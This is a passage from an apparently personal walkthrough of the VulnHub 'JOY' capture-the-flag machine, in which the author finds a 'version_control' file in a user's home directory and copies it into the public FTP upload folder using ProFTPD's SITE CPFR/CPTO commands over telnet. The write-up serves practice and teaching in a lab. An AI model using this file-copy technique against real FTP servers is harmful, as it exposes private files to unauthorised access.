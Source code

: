 And read the file. I snip a lot of here just to show what file to look at:

```
cat directory 
Patrick's Directory

total 416
drwxr-xr-x 18 patrick patrick 20480 Aug  6 16:55 .
drwxr-xr-x  4 root    root     4096 Jan  6  2019 ..
...
-rw-r--r--  1 patrick patrick   407 Jan 27  2019 version_control
...

You should know where the directory can be accessed.

Information of this Machine!

Linux JOY 4.9.0-8-amd64 #1 SMP Debian 4.9.130-2 (2018-10-27) x86_64 GNU/Linux
```

Yes. There's a `version_control` file. This file can potentially help me to progress my enumeration but we have no way to download and read it.

## Two method to get version_control file

And another yes. I hit a wall. I didn't know where to look next because i tried enumerating all the ports here and i got nothing. Even the returns from searchsploit wouldn't work. So I read a couple of writeups/walkthrough on how to work around for this machine and surprisingly, I learn a couple of things.

#### Method #1 

I learn this method by reading `Raj Chandel's Blog`. His write-up for this machine can be found [here].(https://www.hackingarticles.in/digitalworld-local-joy-vulnhub-walkthrough/)

If we take a closer look at the permissions for `download` and `upload` in `FTP` earlier, it shows that we have read/write permission. So we can actually move the `version_control` file from `patrick` home directory to the `ftp` server. This is where i learnt that I can copy files like this but the issue is that, he didn't explain how he know where the `ftp` directory is located. 

```
telnet 192.168.50.112 21
Trying 192.168.50.112...
Connected to 192.168.50.112.
Escape character is '^]'.
220 The Good Tech Inc. FTP Server
site cpfr /home/patrick/version_control
350 File or directory exists, ready for destination name
site cpto /home/ftp/upload/version_control
250 Copy successful
```

Now if we head back to the `FTP` server. We can see that the `version_control` file is there and we can download it: 
